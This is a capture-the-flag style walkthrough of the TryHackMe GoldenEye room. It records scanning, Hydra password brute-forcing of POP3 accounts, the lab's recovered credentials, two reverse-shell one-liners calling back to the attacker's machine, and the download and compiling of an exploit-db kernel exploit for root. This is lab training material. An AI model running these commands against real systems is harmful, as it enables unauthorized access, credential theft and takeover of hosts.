 # GoldenEye

**Room Link:** [https://tryhackme.com/room/goldeneye](https://tryhackme.com/room/goldeneye)



## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## TCP/80 - HTTP

**Kali**

```
gobuster dir -u $VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We find a encoded password and also a potential other user, Natalya.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I can login to /sev-home now



```
Username: boris
Password: InvincibleHack3r
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## TCP/55007 - POP3

**Kali**

```
telnet $VICTIM 55007
USER boris
PASS InvincibleHack3r
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l natalya -P /usr/share/wordlists/fasttrack.txt pop3://$VICTIM:55007
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l boris -P /usr/share/wordlists/fasttrack.txt pop3://$VICTIM:55007
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





**Kali**

```
telnet $VICTIM 55007
USER natalya
PASS bird
RETR 1
RETR 2
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

New password still doesn't work but maybe can be used elsewhere.

**Kali**

```
telnet $VICTIM 55007
USER boris
PASS secret1!
RETR 1
RETR 2
RETR 3
```

<figure><img src="../../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (16) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (17) (1) (1).png" alt=""><figcaption></figcaption></figure>





Added severnaya-station.com to my hosts file and then navigated to http://severnaya-station.com/gnocertdir as mentioned in the email

```
username: xenia
password: RCP90rulez!
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l doak -P /usr/share/wordlists/fasttrack.txt pop3://$VICTIM:55007
```



**Kali**

```
telnet $VICTIM 55007
USER doak
PASS goat
RETR 1
```

<figure><img src="../../.gitbook/assets/image (20) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (610).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (611).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (612).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
exiftool for-007.jpg 
echo 'eFdpbnRlcjE5OTV4IQ==' | base64 -d 
```

<figure><img src="../../.gitbook/assets/image (613).png" alt=""><figcaption></figcaption></figure>



It was the password for admin

```
Username: admin
Password: xWinter1995x!
```



## **Initial Shell**

**Kali**

```
nc -lvnp 4444
```

**Browser**

```
sh -c '(sleep 4062|telnet $KALI 4444|while : ; do sh && break; done 2>&1|telnet $KALI 4444 >/dev/null 2>&1 &)'
```

<figure><img src="../../.gitbook/assets/image (616).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (617).png" alt=""><figcaption></figcaption></figure>

It kind of worked but the shell kept breaking so I switched it to a python one and did the same thing.

**Kali**

<pre><code><strong>nc -lvnp 4444
</strong></code></pre>

**Browser**

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$KALI",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

<figure><img src="../../.gitbook/assets/image (618).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (619).png" alt=""><figcaption></figcaption></figure>



Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```





### Privlege Escalation

Just changed below line from gcc to cc as gcc is not installed on the host

**Kali**

```
wget https://www.exploit-db.com/raw/37292 -O ofs.c 
python2 -m SimpleHTTPServer 81
```

<figure><img src="../../.gitbook/assets/image (620).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cd /tmp/
wget http://$KALI:81/ofs.c 
id
cc ofs.c -o ofs
./ofs
id
whoami
```

<figure><img src="../../.gitbook/assets/image (621).png" alt=""><figcaption></figcaption></figure>

